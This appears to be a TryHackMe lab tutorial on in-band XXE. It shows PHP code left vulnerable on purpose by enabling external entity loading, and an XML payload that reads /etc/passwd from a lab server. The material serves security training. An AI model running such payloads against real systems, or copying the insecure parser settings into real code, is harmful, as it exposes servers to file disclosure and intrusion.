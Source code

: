 ## Exploiting XXE - In-Band

#### In-Band vs Out-of-Band XXE

In-band XXE refers to an XXE vulnerability where the attacker can see the response from the server. This allows for straightforward data exfiltration and exploitation. The attacker can simply send a malicious XML payload to the application, and the server will respond with the extracted data or the result of the attack.

Out-of-band XXE, on the other hand, refers to an XXE vulnerability where the attacker cannot see the response from the server. This requires using alternative channels, such as DNS or HTTP requests, to exfiltrate data. To extract the data, the attacker must craft a malicious XML payload that will trigger an out-of-band request, such as a DNS query or an HTTP request.

#### In-Band XXE Exploitation

We will be using [Burp](https://tryhackme.com/module/learn-burp-suite) for this room. To demonstrate this vulnerability, go to [http://10.10.12.246/contact.php](http://10.10.12.246/contact.php), and fill out the form.

![Homepage of the application](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/db8f3f703dd6b8641d5555ed6ead1b49.png)\


Click the submit button and intercept the request.

![Intercepted request of the contact form](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/734c868f5e54ae3b3d0c3539301f2256.png)\


The submitted data is processed by contact\_submit.php, which contains a vulnerable PHP code designed to return the value of the name parameter when a user submits a message in the form. Below is the vulnerable code:

```php
libxml_disable_entity_loader(false);

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $xmlData = file_get_contents('php://input');

    $doc = new DOMDocument();
    $doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD); 

    $expandedContent = $doc->getElementsByTagName('name')[0]->textContent;

    echo "Thank you, " .$expandedContent . "! Your message has been received.";
}
```

Since the application returns the value of the name parameter, we can inject an entity that is pointing to `/etc/passwd` to disclose its values.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```
